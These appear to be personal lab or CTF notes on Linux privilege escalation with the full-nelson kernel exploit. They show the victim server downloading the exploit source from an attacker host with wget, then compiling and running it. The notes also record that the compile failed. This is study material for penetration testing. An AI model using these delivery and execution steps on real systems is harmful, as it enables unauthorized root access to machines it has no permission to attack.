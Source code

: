 [[3_linux exploit suggester]]

http://vulnfactory.org/exploits/full-nelson.c

//copy the vuln to attacker machine > `sudo vim full-nelson.c` 
[[19_vim editor]]

//deliver file to the victim (note that previously web server was enabled)
in victim server: `wget http://10.10.16.2/full-nelson.c`

//change file to executable
`chmod +x full-nelson.c`

//compile > check if there is gcc compiler 
![[Pasted image 20230312200805.png]]

//compile 

```
gcc full-nelson.c -o full-nelson
./full-nelson
```


in testing the full-nelson did not compile due to error
//check solution with other resources or check other solutions

![[Pasted image 20230312202827.png]]